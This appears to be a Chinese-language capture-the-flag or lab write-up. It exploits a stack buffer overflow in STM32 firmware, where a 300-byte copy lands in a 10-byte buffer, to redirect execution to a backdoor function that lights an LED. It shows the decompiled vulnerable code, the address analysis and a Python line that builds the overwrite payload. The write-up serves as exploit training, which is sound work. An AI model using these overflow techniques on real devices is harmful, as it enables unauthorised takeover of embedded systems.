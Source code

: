 目标描述：通过 VUL 功能漏洞调用后门函数点亮该 LED。  
  
板子提供了固件，逆向分析固件里面的 VUL 函数。  
```
 void main() {    // .....    if ( !strcmp(cmd, "VUL") )    {      _2printf((constchar *)dword_8005444);      HAL_UART_Receive(&huart1, pData, 0x12Cu, 0xFFFFFFFF);      vulnerable_function(pData);    }}void __fastcall vulnerable_function(uint8_t *input){char buffer[10]; // [sp+0h] [bp-18h] BYREF  qmemcpy(buffer, input, 0x12Cu);}
```  
  
串口接收 VUL 字符串后，可以继续接收 300 字节的数据，函数 vulnerable_function  
 里面的 qmemcpy  
 从 input 内存复制 0x12C（300）字节到 buffer  
，然而 buffer  
 是栈内存且仅有 10 字节大小。  
  
点亮 LED 需要操作 GPIO，HAL_GPIO_WritePin  
 函数可以操作 GPIO，然后查找这个函数交叉引用的时候发现了后门函数 open_led_backdoor  
 ，这意味着不需要构造复杂的 ROP 来实现点亮 LED。  
```
void open_led_backdoor() // 800552C{  MEMORY[0x2000029A] = 1;  HAL_GPIO_WritePin(MEMORY[0x20000294], MEMORY[0x20000298], GPIO_PIN_SET);  save_led_state_to_flash();}
```  
  
这个函数的内存地址是 800552C  
，实际使用的使用需要将该地址 +1，即 800552D  
，thumb 模式。  
  
stm32 栈在哪里？SRAM 里面。  
  
在大多数 STM32 芯片中，**0x08000000（Flash 起始地址）处的前 4 字节就是初始化栈指针（MSP）**  
 ：  
```
0x08000000: <Initial Stack Pointer Value>0x08000004: <Reset Handler Address>
```  
  
IDA 里面定位过去  
```
ER_IROM1:08000000 __Vectors       DCD init_spER_IROM1:08000004                 DCD Reset_Handler+1ER_IROM1:08000008                 DCD NMI_Handler+1ER_IROM1:0800000C                 DCD HardFault_Handler+1
```  
  
继续定位init_sp  
```
abs:200009F8 ; ===========================================================================abs:200009F8abs:200009F8abs:200009F8 init_sp = 0                             ; DATA XREF: ER_IROM1:__Vectors↑oabs:200009F8                          
```  
  
很明显 200009F8  
 是一个 SRAM 里面的地址（见前面），后面要调试的时候，可以用 openocd dump 栈内存看看。  
  
构造一个 300 字节，全是后门函数地址的 payload 。  
```
" ".join(["%02X" % x for x in p32(0x800552D) * 75 ])
```  
  